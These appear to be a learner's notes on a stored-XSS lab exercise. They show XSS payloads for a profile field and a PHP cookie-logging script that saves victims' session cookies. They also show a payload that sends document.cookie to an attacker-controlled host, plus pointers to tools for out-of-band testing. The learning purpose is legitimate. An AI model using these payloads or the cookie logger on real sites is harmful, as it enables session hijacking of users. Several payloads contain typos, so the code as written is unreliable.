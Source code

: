 > [!CODE] Payloads
> "><img src=x onerror=confirm(1)>
> "><img src=x oneerror=alert(1)"

The submit with save, the profile was uploaded successfully, we notice no paylaod begin triggered, the payload code is not going to be called/executed until another app
functionality triggers.
Share as it's only other functionality we have, to see if any of the submitted payloads are reitrived in there.
This functionality returns a publicly accesible profile, stored XSS in the functionality would be ideal from attacker's perpective.
We must to check if is the HTTPOnly is off --> false.

### Obtaining Session Cookie through XSS:
Let us create a cookie-logging script (save it as log.php) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie, "\n\n");
fclose($handle);

header("Location: http://www.google.com");
exit;
?>

```

This script waist for anyone to request [?c=+documnet.cookie], then parse the include cookie.
The cookie-logging script can be run as follow, [TUN Adapter IP] is the [tun] interface's IP of either Pwdbox or ur VM.
`php -S TUN Adapter Ip:8000`
Before we simulatee the attacks, let us restore Ela Stiener original mail and Telephone. Let us place the below payload on the Country Field. There are no specific requierement for the payload, we just used a less common and a bit more advanced one since
u may be requiered to do the same for evasion purpouses.

> [!CODE] Payload
> `<style>@keyframe x{}</><video style="animation-name:x" oneanimationed="window.location = http://VPN-TUN-ADAPTER:8000/login.php?c=' + document.cookie;></video>`.

> [!NOTE]
> Of ur doing test in the real world, try to using something like [XXHunter, Burp Collaborator or Project Interactsh].
> Links :
> [XXHunter](https://xsshunter.com/#/)
> [Project Interatch](https://app.interactsh.com/#/)
